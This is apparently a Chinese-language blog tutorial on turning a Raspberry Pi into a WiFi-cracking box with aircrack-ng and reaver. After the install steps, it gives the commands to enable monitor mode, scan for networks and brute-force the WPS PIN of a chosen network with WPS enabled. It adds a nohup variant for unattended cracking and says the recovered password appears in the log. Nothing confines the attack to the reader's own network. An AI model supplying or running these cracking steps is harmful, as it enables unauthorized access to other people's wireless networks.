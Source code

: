 # 树莓派（raspberrypi）安装aircrack-ng,reaver及wifi破解教程

这篇文章主要应百度贴吧水友的要求，特写了一个小教程。让pi变得更有意思。
这个无线破解和PC上的原理是一样的，只不过平台换到了PI上。PI主要就是省电，放在那里跑一个月也没事。

回到正题：

### 硬件环境

 - 树莓派B+一个（我用的是debian环境）
 - PC一台（或其它设备直接操作PI就行）
 - 无线网卡（能用就行，不过强大的无线网卡会事半功倍，我用的3070）


### 安装依赖包
```
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
sudo apt-get install libnl-3-200 libnl-3-dev libnl-3-doc libnl-genl-3-dev libnl-genl-3-200
```

### 安装aircarck-ng
```
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make
sudo make install
```

### 安装reaver
```
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

如果安装成功后，会有`airmon-ng,airodump-ng,reaver`等命令可用。

### 破解教程
```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
```
![1](/uploads/2014/11/1.png)

```
sudo airodump-ng mon0
```
![2](/uploads/2014/11/2.png)

根据上面的airodump搜索到的无线信号，然后可以挑信号强的进行破解（注意，要选择开了WPS功能的）
```
sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 
```
![2-2](/uploads/2014/11/2-2.png)

如果想挂机破解，记得加上`nohup`命令后，可以断开ssh。然后剩下就是等待。
```
nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
```
如果破解成功后，打开输出的日志，就可以看到reaver出来的密码。

![3](/uploads/2014/11/3.png)
